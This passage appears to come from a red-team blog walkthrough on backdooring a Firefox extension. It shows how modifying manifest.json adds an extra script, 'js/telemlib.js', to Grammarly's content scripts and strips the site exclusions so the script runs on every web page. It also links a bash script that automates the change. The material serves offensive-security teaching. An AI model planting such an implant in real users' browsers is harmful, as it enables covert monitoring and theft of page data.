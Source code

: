 For the rest of this walkthrough, I'll use the Wappalyzer extension as an example. Wappalyzer is an extension that's used to identify the technology used on websites. I want to point out some important parts of the `manifest.json` file that are crucial to the implant:

- `content_scripts.matches` - Sites that the extension will run the specified JavaScript on
- `content_scripts.excludes` - Sites that are excluded from the JavaScript execution
- `content_scripts.js` - JavaScript files that are executed in the background of the specified sites

In this example, all that would need to be modified is the `content_scripts.js` since it will already run on all sites.

## Tap That Extension
I wrote a [bash script](https://github.com/zcrosman/firefox-extension-js-tap/) to easily update the `manifest.json` to include the necessary settings and drop the JavaScript file in the required folder. I'll walk through how it works.

This is what part of the `manifest.json` looks like before modification for the Grammarly extension. The extension runs `src/js/Grammarly-check.js` excluding the pages in "exclude_matches":

```json
"content_scripts": [
    {
      "all_frames": true,
      "match_about_blank": true,
      "css": [
        "src/css/Grammarly-fonts.styles.css"
      ],
      "js": [
        "src/js/Grammarly-check.js"
      ],
      "matches": [
        "<all_urls>"
      ],
      "exclude_matches": [
        "*://outlook.live.com/*",
        ----SNIP----
        "*://docs.google.com/document/*"
      ],
      "exclude_globs": [
        "*docs.google.com*"
      ],
      "run_at": "document_idle"
    }
 ]
```

**Updated Version:**
```json
"content_scripts": [
    {
        "all_frames": true,
        "match_about_blank": true,
        "css": [
            "src/css/Grammarly-fonts.styles.css"
        ],
        "js": [
            "src/js/Grammarly-check.js",
            "js/telemlib.js"
        ],
        "matches": [
            "http://*/*",
            "https://*/*"
        ],
        "run_at": "document_idle"
    }
```